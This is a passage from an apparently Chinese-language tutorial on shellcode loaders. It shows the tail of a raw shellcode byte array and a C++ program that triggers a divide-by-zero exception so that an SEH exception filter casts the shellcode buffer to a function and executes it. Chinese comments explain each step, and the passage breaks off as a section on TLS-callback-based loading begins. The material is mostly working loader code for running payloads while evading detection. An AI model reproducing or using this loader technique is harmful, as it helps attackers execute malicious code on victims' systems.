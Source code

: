 ```cpp
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

int a = 1;
int b = 0;

// 定义异常处理函数
int ExceptFilter()
{	
	b = 1; // 修改b的值为1，以防止无限循环的异常处理
	((void(*)(void)) & shellcode)(); // 强制转换shellcode的类型，并执行
	return EXCEPTION_CONTINUE_EXECUTION; // 在处理完异常后，程序继续执行异常发生位置的代码
	/*
	EXCEPTION_CONTINUE_EXECUTION返回值会导致程序在处理完异常后重新执行引发异常的那一行代码。
	由于ExceptFilter函数已经修改了变量b的值（将其设置为1），再次执行a / b时将不会触发异常。
	因此，这个程序不会反复加载shellcode
	*/

	/*
	异常处理函数的返回值除了有EXCEPTION_CONTINUE_EXECUTION,还有以下两个值:
	EXCEPTION_EXECUTE_HANDLER:常处理器已处理异常，程序应在_except块内继续执行
	EXCEPTION_CONTINUE_SEARCH:常处理器未处理异常，程序应继续搜索其他异常处理器
	*/

}

int main()
{
	_try // 尝试执行可能引发异常的代码块
	{	
		int c = a / b; // 故意执行除零操作以触发异常
	}
	
	_except(ExceptFilter()) { // 当异常发生时，调用ExceptFilter函数处理

	};

	return 0;
}
```



# 10.基于TLS机制

## 什么是TLS

线程局部存储（Thread Local Storage，TLS）是一种将数据与特定执行线程关联的机制。当在一个线程内部的各个函数调用之间共享数据，但不让其他线程访问时，可以使用TLS


